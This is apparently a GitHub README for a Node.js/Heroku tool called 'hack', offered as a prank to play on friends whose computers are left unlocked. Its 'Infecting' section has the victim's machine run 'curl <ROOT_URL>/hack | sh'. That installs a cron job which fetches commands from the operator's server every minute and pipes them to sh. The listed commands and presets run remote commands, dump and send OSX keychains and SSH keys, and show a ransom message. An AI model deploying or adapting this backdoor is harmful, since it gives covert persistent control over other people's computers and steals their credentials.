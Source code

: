 # Hack

This project helps your hack your friends. All you need to do is wait for them to leave their computer unlocked, open up Terminal, and run a single curl command.

[Check out this blog post for more details about how this works](TODO) or jump right in below.

## Getting Started

Clone, install, and link so you can use the `hack` cli tool.

```sh
git clone https://github.com/ccorcos/hack.git
git remote remove origin
cd hack
npm install
npm link
```

If you've never used Heroku before, [signup here](https://signup.heroku.com/) (it's free!) and set up their cli tool on your machine.

```sh
brew install heroku-toolbelt
heroku login
```

Create a Heroku app with an easy name to remember.

```sh
heroku create hacker-chet
```

The following command will get the root url for your Heroku website and put it in your `package.json`. This way the server can inject a root url into the shell scripts.

```sh
npm run init
```

You can stand up the server locally if you want do you can hack yourself and test things out.

```sh
npm start
```

Or you can deploy to Heroku.

```sh
npm run deploy
```

Now you're ready to hack!

## Infecting

To hack someone, run this in their Terminal:

```sh
curl <ROOT_URL>/hack | sh
```

`ROOT_URL` is the specific path to your application. When you're testing locally, this will be `localhost:5000` and when you deploy to Heroku, it will be something like `<APP_NAME>.herokuapp.com`.

What this does is sets up a cron job to ping the `/env/live` endpoint every minute and pipes the result to `sh`. And Heroku gives you HTTPS for free so I wouldn't be too worried about hacking yourself with it. Everything else happens at the commandline using the `hack` cli tool.

## API

- `hack deploy` - deploy your latest changes to Heroku.
- `hack logs` - view your server logs

The following commands are specific to environments and must be followed with a deploy for the changes to be applied to your server.

- `hack <env> exec <cmd>` - execute a command on the remote machine. e.g. `hack live exec "say hello"`
- `hack <env> cron <job>` - add a cronjob to the remote machine [[ref](http://www.nncron.ru/help/EN/working/cron-format.htm)]. e.g. `hack live cron "0 8 * * * say 'good morning'"`
- `hack <env> dump <cmd>` - execute a command on the remote machine and log the result.
- `hack <env> preset <name>` - check the source to see what presets there are and what they do.
- `hack <env> interval <time>` - change the ping interval. options are `1m`, `1d`, `1m`, `1y`
- `hack <env> reset` - reset all cronjobs and ping every minute
- `hack <env> rename <name>` - switch the env that gets pinged
- `hack <env> forget` - removed the ping cronjob to disconnect with the remote machine

## Presets
- `hack <env> preset 420` - say at 4:20PM every day 'its foe 20, ye better be toke-in'
- `hack <env> preset crontabs` -  dump and send current cron jobs
- `hack <env> preset desktop <image_url>` - set desktop background to image
- `hack <env> preset passwords` - dump and send OSX keychains
- `hack <env> preset ransom <message>` - Opens TextEdit with ransom message
- `hack <env> preset ssh` - dump and send SSH keys

## PS

[A nice resource on how to make a Node.js CLI app.](http://blog.npmjs.org/post/118810260230/building-a-simple-command-line-tool-with-npm)
